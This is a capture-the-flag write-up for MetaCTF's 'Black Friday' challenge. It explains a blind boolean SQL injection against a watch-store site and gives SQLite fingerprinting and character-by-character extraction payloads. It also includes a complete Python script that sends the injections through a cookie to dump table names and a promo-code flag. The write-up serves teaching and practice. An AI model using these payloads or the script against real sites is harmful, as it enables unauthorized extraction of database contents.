

# Black Friday

Author: MetaCTF

## Description

Your friend got an exclusive promo code for a really good deal with this watch store (http://host3.metaproblems.com:5900/), but they refused to share it with you. It has to be stored somewhere in the db, right? Can you help me find it?

## Solution

This is a blind, logic based, SQL injection challenge that requires table names, column names, and the flag to be extracted using various methods of logic based SQL injection.

I started this challenge by trying to determine what DBMS was running on the backend. I was able to determine that the application is using sqlite as the DBMS using the payload `1 or sqlite_version()=sqlite_version()`. 

After determining the version it is possible to extract all the table names character by character using the payload `1 and (SELECT substr(tbl_name,1,1) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 2) = 'p'`.

Using the knowledge that the target is a promo code, it is can be guessed that the column name it `promo_code`. The final payload that I used to extract the flag is `1 and (SELECT substr(promo_code,1,1) FROM promos limit 1 offset 2) = '<character>'`.



Flag: `flag{this_is_a_pretty_good_deal}`

```python
import requests
import time

url = 'http://host3.metaproblems.com:5900/'

def getNumTables():
    num_tables = 1

    while True:
        injection = f"1 and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%') = {num_tables}"

        cookie = {'ww_store':injection}
        r = requests.get(url, cookies=cookie)

        if "Store not found." not in r.text:
            return num_tables
        else:
            num_tables += 1

def getTables(num_tables):
    tables = []
    
    for i in range(num_tables):
        alphabet = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','0','1','2','3','4','5','6','7','8','9','fail']
        cur_table = []
        break_out = False
        for j in range(10):
            for char in alphabet:
                time.sleep(0.4)
                injection = f"1 and (SELECT substr(tbl_name,{j+1},1) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset {i}) = '{char}'"

                cookie = {'ww_store':injection}
                r = requests.get(url, cookies=cookie)

                if char == 'fail':
                    tables.append(''.join(cur_table))
                    print(f"Found: {''.join(cur_table)}")
                    break_out = True
                    break
                elif "Store not found." not in r.text:
                    cur_table.append(char)
                    j += 1
                    break
            if break_out == True:
                break

    return ', '.join(tables)

def getFlag(table, column):
    alphabet = ['{','}','a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','0','1','2','3','4','5','6','7','8','9','fail']
    flag = []
    j = 1

    while True:
        for char in alphabet:
            time.sleep(0.4)
            injection = f"1 and (SELECT substr({column},{j},1) FROM {table} limit 1 offset 2) = '{char}'"

            cookie = {'ww_store':injection}
            r = requests.get(url,cookies=cookie)
            
            if char == 'fail':
                flag.append("_")
                j += 1
            elif "Store not found." not in r.text:
                flag.append(char)
                if char == "}":
                    return ''.join(flag)
                j += 1
                break

try:
    num_tables = getNumTables()
    print(f"Number of Tables: {num_tables}")
    print(f"Tables: {getTables(num_tables)}")
    table = input("Which table would you like to target?: ")
    column = input("Which column would you like to target?: ")
    print(f"Flag: {getFlag(table,column)}")
except KeyboardInterrupt:
    exit()
```

